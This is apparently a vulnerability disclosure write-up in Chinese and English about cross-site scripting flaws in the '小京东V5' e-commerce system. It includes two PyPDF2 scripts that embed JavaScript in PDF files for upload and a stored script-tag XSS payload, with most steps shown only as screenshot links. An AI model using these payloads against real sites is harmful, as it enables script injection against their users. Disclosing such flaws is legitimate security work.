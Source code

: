 First, you need to register an account

Registration allows you to input your phone number freely without verifying if it belongs to you

![1704869978922](小京东V5-XSS.assets/1704869978922.png)

Enter my message

![1704870091808](小京东V5-XSS.assets/1704870091808.png)

Vulnerability 1:

![1704870440474](小京东V5-XSS.assets/1704870440474.png)

![1704870241695](小京东V5-XSS.assets/1704870241695.png)



制作pdf型XSS

**zi1.py:**

~~~
from PyPDF2 import PdfReader, PdfWriter  
#创建一个新的 PDF 文档  
output_pdf = PdfWriter()  
#添加一个新页面  
page = output_pdf.add_blank_page(width=72, height=72)  
#添加js代码  
output_pdf.add_js("app.alert('xss');")  
#将新页面写入到新 PDF 文档中  
with open("xss.pdf", "wb") as f:  
	output_pdf.write(f)
~~~

**zi2.py:**

~~~
from PyPDF2 import PdfReader, PdfWriter
#打开原始 PDF 文件
input_pdf = PdfReader("x.pdf")
#创建一个新的 PDF 文档
output_pdf = PdfWriter()
#将现有的 PDF 页面复制到新文档
for i in range(len(input_pdf.pages)):
	output_pdf.add_page(input_pdf.pages[i])
#添加 JavaScript 代码
	output_pdf.add_js("app.alert('xss');")
#将新 PDF 文档写入到文件中
with open("xss.pdf", "wb") as f:
	output_pdf.write(f)
~~~

将两文件放入一个路径下：

![1704870307607](小京东V5-XSS.assets/1704870307607.png)

依次执行python zi1.py python zi2.py等指令

![1704870327186](小京东V5-XSS.assets/1704870327186.png)

Vulnerability 2:

![1704870378401](小京东V5-XSS.assets/1704870378401.png)

~~~
<script>alert('XSS')</script>
~~~



![1704870510453](小京东V5-XSS.assets/1704870510453.png)

